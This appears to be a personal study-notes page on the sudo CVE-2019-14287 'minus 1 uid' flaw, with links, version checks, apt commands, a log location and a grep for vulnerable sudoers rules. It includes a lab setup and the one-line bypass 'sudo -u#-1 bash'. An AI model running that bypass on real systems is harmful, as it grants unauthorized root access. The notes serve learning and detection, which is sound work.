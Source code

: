 # CVE

## MAIN

CVE - Common Vulnerabilities and Exposures

{% hint style="danger" %}
Read more about PAM
{% endhint %}

### CVE-2019-14287 sudo minus 1 uid

#### src

* [sudo.ws](https://www.sudo.ws/alerts/minus_1_uid.html)
* [CVE](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)
* [launchpad.net/ubuntu](https://launchpad.net/ubuntu) -&gt; find package

#### Details

check `sudo` version `$ sudo -V`

`$ apt show sudo` -&gt; `http://www.sudo.ws/`

```bash
$ sudo adduser alexis
$ sudo visudo
# PAM file
alexis ALL=(ALL, !root) ALL

(alexis) $ sudo -u#-1 bash
```

How to downgrade a package?

`$ sudo apt install <pkg-name>=<pkg-version-number>`

How to upgrade only sudo pkg?

`$ sudo apt install sudo`

What is `$ sudo apt dist-upgrade` ?

{% hint style="danger" %}
fill in
{% endhint %}

Is there a way I can see all the versions that are in the archives that I have configured in `sources.list`. I can see the last version of each archive with `apt-get policy`, but how can I see them all?

```bash
$ apt list -a <pkg name>
```

{% hint style="info" %}
check what is `madison` ?
{% endhint %}

Where you can see the logs of `sudo` activity?

```bash
# Ubuntu
/var/log/auth.log 
```

Checking if your environment is affected:

```bash
$ cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!root\s*)"
```

`\s` stands for whitespace character, matches a space, a tab, a line break etc.

\`\`



